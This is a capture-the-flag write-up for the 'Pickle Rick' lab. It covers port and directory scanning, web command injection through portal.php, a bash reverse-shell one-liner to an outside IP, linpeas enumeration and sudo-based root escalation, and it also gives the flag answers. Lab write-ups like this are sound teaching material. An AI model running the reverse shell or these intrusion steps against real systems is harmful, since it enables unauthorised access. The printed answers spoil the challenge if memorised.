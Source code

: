 # Pickle Rick

+ What is the first ingredient that Rick needs?`mr. meeseek hair`
+ What is the second ingredient in Rick’s potion?
+ What is the last and final ingredient?

### RECON
- Using nmap to scan open port `nmap -sC -sV -sT 10.10.147.153 > nmap_log`
- Using inpect element 
    ```html
    <!--
        Note to self, remember username!
        Username: R1ckRul3s
    -->
    ```
- Checking `robots.txt` return `Wubbalubbadubdub`
- Using Go buster found
    ```bash
    /.php                 (Status: 403) [Size: 292]
    /index.html           (Status: 200) [Size: 1062]
    /.html                (Status: 403) [Size: 293]
    /login.php            (Status: 200) [Size: 882]
    /assets               (Status: 301) [Size: 315] [--> http://10.10.147.153/assets/]
    /portal.php           (Status: 302) [Size: 0] [--> /login.php]
    ```

### EXPLOIT
- Using url `http://10.10.147.153/portal.php` we can run command
- `ls` command return 
    ```
    total 40
    drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
    drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
    -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
    drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
    -rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
    -rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
    -rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
    -rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
    -rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
    -rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
    ```
- Using command `grep "" *.txt`
    ```
    Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
    clue.txt:Look around the file system for the other ingredient.
    robots.txt:Wubbalubbadubdub
    ```
- Using Bash RevShell `/bin/bash -c "bash -i >& /dev/tcp/10.4.37.160/1337 0>&1"` listen to port 1337 to get reverse shell
- Search home folder
    ```bash
    www-data@ip-10-10-147-153:/home/rick$ cat second\ ingredients 
    1 jerry tear
    ```

### PRIVILEDGE ESCALATION
- Upload `linpeas.sh` to `/dev/shm`
    ```bash
    ╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
    ╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
    Matching Defaults entries for www-data on ip-10-10-147-153.eu-west-1.compute.internal:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on ip-10-10-147-153.eu-west-1.compute.internal:
        (ALL) NOPASSWD: ALL

    www-data@ip-10-10-147-153:/dev/shm$ sudo su
    root@ip-10-10-147-153:/dev/shm# cd /root
    root@ip-10-10-147-153:~# ls
    3rd.txt  snap
    root@ip-10-10-147-153:~# cat 3rd.txt 
    3rd ingredients: fleeb juice
    ```